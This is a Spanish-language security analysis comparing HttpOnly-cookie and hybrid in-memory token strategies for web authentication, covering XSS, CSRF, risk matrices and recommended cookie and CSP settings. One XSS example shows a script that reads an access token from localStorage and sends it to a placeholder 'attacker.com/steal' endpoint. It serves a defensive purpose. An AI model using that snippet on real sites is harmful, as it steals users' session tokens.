



# Análisis de Seguridad - Flujos de Autenticación

## Estrategia 1: Dual HTTPOnly Cookies

En esta estrategia, tanto el Access Token como el Refresh Token son gestionados exclusivamente por el backend mediante cookies HTTPOnly.

### Flujo de Autenticación Completo



### Análisis de Seguridad

<div class="info-box success">

**✅ Fortalezas de Seguridad**

1. **Protección XSS Total**: JavaScript malicioso no puede acceder a tokens (flag HTTPOnly)
2. **Seguridad en Tránsito**: Flag `Secure` garantiza transmisión solo por HTTPS
3. **Simplicidad Frontend**: Sin lógica de manejo de tokens en cliente
4. **Rotación de Tokens**: RT puede rotarse en cada refresh fácilmente

</div>

<div class="info-box warning">

**⚠️ Consideraciones de Seguridad**

1. **CSRF (Cross-Site Request Forgery)**:
   - Las cookies se envían automáticamente en cada petición
   - **Mitigación requerida**:
     - `SameSite=Strict` o `SameSite=Lax`
     - Tokens CSRF adicionales para operaciones sensibles
     - Validación de origen/referrer

2. **Subdomain Attacks**:
   - Cookies con `Domain=.ejemplo.com` accesibles desde subdominios
   - **Mitigación**: No establecer el atributo `Domain` (limitado al dominio exacto)

3. **Logout Distribuido**:
   - Requiere invalidación de tokens en servidor
   - **Implementación**: Blacklist de tokens o modelo de sesiones

</div>

---

## Estrategia 2: Manejo Híbrido (HTTPOnly RT + AT en Memoria)

El Refresh Token permanece en cookie HTTPOnly, pero el Access Token se gestiona en el frontend.

### Flujo de Autenticación Completo



### Análisis de Seguridad

<div class="info-box success">

**✅ Fortalezas de Seguridad**

1. **Ventana de Compromiso Limitada**: AT expira en 15 minutos
2. **Menor Riesgo CSRF**: AT en header `Authorization` no se envía automáticamente
3. **Protección RT**: Refresh Token protegido por HTTPOnly
4. **Flexibilidad Multi-dominio**: AT puede enviarse a diferentes dominios/APIs
5. **Control Granular**: Frontend decide cuándo renovar el token

</div>

:::warning 🔒 Implementaciones de Seguridad (Defense in Depth)

Esta estrategia implementa **múltiples capas de protección** para garantizar seguridad robusta:

### 1. Content Security Policy (CSP)
Bloquea ejecución de scripts no autorizados a nivel de navegador.
```http
Content-Security-Policy: default-src 'self'; script-src 'self';
```

### 2. Almacenamiento Seguro
```javascript
// Private class fields - Inmune a acceso externo
class TokenManager {
  #accessToken = null;  // No accesible desde window.* o localStorage
}
```
**+ Sanitización** de inputs (DOMPurify frontend + backend validation)

### 3. Blast Radius Limitado
- **AT**: Máximo 15 minutos de exposición
- **RT**: Permanece seguro en HTTPOnly cookie
- **Auto-recuperación**: Sistema vuelve a estado seguro tras expiración

**¿Por qué?** Aunque un atacante bypasse CSP (muy difícil), solo obtiene acceso temporal de 15 min al AT. El RT nunca se expone.

---

### Observabilidad para SIEM

**Ventaja crítica**: AT visible en logs permite monitoreo y detección de anomalías en tiempo real.

```javascript
// Detectar token usado desde IPs diferentes → Revocación automática
if (tokenUsedFromDifferentIP(tokenId, currentIP)) {
  revokeToken(tokenId);
}
```

**Beneficios**: Trazabilidad completa, detección automática de patrones sospechosos, Compliance (SOC 2, ISO 27001)

---

### Comparación de Impacto ante XSS

| Escenario | Estrategia 1 | Estrategia 2 |
|-----------|-------------|-------------|
| **Si XSS exitoso** | AT + RT comprometidos | Solo AT (15 min) |
| **Daño máximo** | Acceso completo | Limitado a 15 min |
| **Recuperación** | Requiere acción manual | Automática |

:::

---

## Vectores de Ataque Comparados

### XSS (Cross-Site Scripting)

<div style="display: grid; grid-template-columns: 1fr 1fr; gap: 1rem; margin: 2rem 0;">

<div class="info-box">

**Estrategia 1 (Dual HTTPOnly)**

```javascript
// ❌ Ataque XSS FALLIDO
<script>
  // No puede acceder a las cookies
  document.cookie;
  // Returns: "" (HTTPOnly bloquea acceso)
</script>
```

<span class="security-badge high">Protección: ALTA</span>

Tokens completamente inaccesibles desde JavaScript.

</div>

<div class="info-box warning">

**Estrategia 2 (Híbrido)**

```javascript
// ⚠️ Ataque XSS EXITOSO (si usa localStorage)
<script>
  const token = localStorage.getItem('accessToken');
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({token})
  });
</script>
```

<span class="security-badge medium">Protección: MEDIA</span>

AT comprometido por 15 minutos. RT seguro.

</div>

</div>

### CSRF (Cross-Site Request Forgery)

<div style="display: grid; grid-template-columns: 1fr 1fr; gap: 1rem; margin: 2rem 0;">

<div class="info-box warning">

**Estrategia 1 (Dual HTTPOnly)**

```html
<!-- ⚠️ Ataque CSRF EXITOSO (sin mitigación) -->

<!-- Cookies enviadas automáticamente -->
```

<span class="security-badge medium">Riesgo: MEDIO</span>

**Requiere mitigación obligatoria:**
- SameSite=Strict/Lax
- Tokens CSRF

</div>

<div class="info-box">

**Estrategia 2 (Híbrido)**

```html
<!-- ❌ Ataque CSRF FALLIDO -->

<!-- Sin header Authorization, petición rechazada -->
```

<span class="security-badge high">Riesgo: BAJO</span>

AT en header no se envía automáticamente. RT protegido por SameSite.

</div>

</div>

---

## Matriz de Riesgo

| Vector de Ataque | Estrategia 1 (Dual HTTPOnly) | Estrategia 2 (Híbrido) |
|------------------|------------------------------|------------------------|
| **XSS (Cross-Site Scripting)** | <span class="security-badge high">✅ INMUNE</span><br/>Tokens inaccesibles por HTTPOnly | <span class="security-badge medium">⚠️ VENTANA 15MIN</span><br/>AT expuesto en memoria|
| **CSRF (Cross-Site Request Forgery)** | <span class="security-badge medium">⚠️ REQUIERE PROTECCIÓN</span><br/>SameSite + CSRF tokens necesarios | <span class="security-badge high">✅ RESISTENTE</span><br/>AT en header no se envía automáticamente |
| **Token Theft (Network Sniffing)** | <span class="security-badge high">✅ SOLO HTTPS</span><br/>MITM solo con certificado comprometido | <span class="security-badge medium">⚠️ DEVTOOLS</span><br/>AT visible en Network/Application tabs |
| **Session Fixation** | <span class="security-badge high">✅ MITIGADO</span><br/>Flags Secure + regeneración de tokens | <span class="security-badge high">✅ MITIGADO</span><br/>Flags Secure + regeneración de tokens |

### Resumen Visual de Riesgos

<div style="display: grid; grid-template-columns: repeat(auto-fit, minmax(250px, 1fr)); gap: 1.5rem; margin: 2rem 0;">

<div class="info-box" style="border-left-color: #10b981;">

**🔵 Estrategia 1: Dual HTTPOnly**

- ✅ **Excelente contra XSS**
- ⚠️ **Requiere mitigación CSRF**
- ✅ **Tokens ocultos en DevTools**
- ⚠️ **Cookies en cada request**

</div>

<div class="info-box" style="border-left-color: #f59e0b;">

**🟡 Estrategia 2: Híbrido**

- ⚠️ **Ventana 15min en XSS**
- ✅ **Resistente a CSRF natural**
- ⚠️ **AT visible en DevTools**
- ✅ **Solo RT en cookies**

</div>

</div>

---

## Configuraciones de Seguridad Recomendadas

### Para Estrategia 1 (Dual HTTPOnly)

```javascript
// Backend - Configuración de cookies
res.cookie('accessToken', token, {
  httpOnly: true,        // ✅ Bloquea acceso JavaScript
  secure: true,          // ✅ Solo HTTPS
  sameSite: 'strict',    // ✅ Bloquea CSRF
  maxAge: 15 * 60 * 1000,// 15 minutos
  path: '/api',          // ✅ Limitar scope
  // NO establecer 'domain' para limitar a dominio exacto
});

res.cookie('refreshToken', refreshToken, {
  httpOnly: true,
  secure: true,
  sameSite: 'strict',
  maxAge: 7 * 24 * 60 * 60 * 1000, // 7 días
  path: '/auth/refresh', // ✅ Solo endpoint de refresh
});
```

### Para Estrategia 2 (Híbrido)

```javascript
// Backend - Solo RT en cookie
res.cookie('refreshToken', refreshToken, {
  httpOnly: true,
  secure: true,
  sameSite: 'strict',
  maxAge: 7 * 24 * 60 * 60 * 1000,
  path: '/auth/refresh',
});

// Frontend - Manejo seguro de AT
class TokenManager {
  #accessToken = null;  // ✅ Private field
  #expiresAt = null;

  setToken(token, expiresIn) {
    this.#accessToken = token;
    this.#expiresAt = Date.now() + (expiresIn * 1000);
  }

  getToken() {
    if (Date.now() >= this.#expiresAt) {
      return null; // Token expirado
    }
    return this.#accessToken;
  }

  clearToken() {
    this.#accessToken = null;
    this.#expiresAt = null;
  }
}

// ✅ Content Security Policy
// Header en servidor
Content-Security-Policy:
  default-src 'self';
  script-src 'self';
  style-src 'self' 'unsafe-inline';
  img-src 'self' data: https:;
  connect-src 'self' https://api.ejemplo.com;
```

---

## Performance y Escalabilidad

### Latencia de Peticiones

| Aspecto | Estrategia 1 | Estrategia 2 |
|---------|--------------|--------------|
| **Overhead por cookie** | ~200-500 bytes por request | ~100-200 bytes (solo RT en /refresh) |
| **Headers AT** | Incluido en cookie | ~200-300 bytes en Authorization |
| **Renovación automática** | Backend-driven (transparente) | Frontend-driven (1 request extra) |
| **Impacto en CDN** | Cookies dificultan caching | AT en header permite mejor caching |

### Consideraciones de Escalabilidad



**Estrategia 1**: Cada request puede requerir validación en session store
**Estrategia 2**: Solo `/refresh` requiere session store, AT es stateless (JWT auto-contenido)
